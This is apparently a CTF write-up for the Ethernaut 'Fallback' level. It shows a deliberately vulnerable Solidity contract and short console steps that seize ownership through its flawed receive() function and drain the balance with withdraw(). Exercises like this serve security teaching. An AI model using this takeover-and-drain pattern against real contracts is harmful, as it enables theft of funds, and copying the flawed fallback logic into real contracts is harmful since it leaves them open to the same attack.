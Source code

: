 ### Type - CTF

*** 


Look carefully at the contract's code below.

You will beat this level if

* you claim ownership of the contract
* you reduce its balance to 0

Things that might help

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see help() command)
* Fallback methods

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```


### Solution

* Get New Instance

Taking a glimpse at the code above we can easily exploit a poorly implemented fallback function to gain control of someone else’s smart contract

* Sending  transaction value from players account satisfying the condition `require(msg.value > 0 && contributions[msg.sender] > 0);` will give the  ownership to the player
  * `contract.sendTransaction({from: player,value: toWei(...)})`
*  await contract.owner() - > checking the ownership 
* contract.withdraw() - > withdraws all the funds in the  contract

Explanation 

*  0xSage - [Ethernaut Lvl 1 Walkthrough: how to abuse the Fallback function](https://medium.com/hackernoon/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)
*  Smart Contract Programmer - [Ethernaut 01 - Fallback](https://www.youtube.com/watch?v=TQKj2xvsGec)


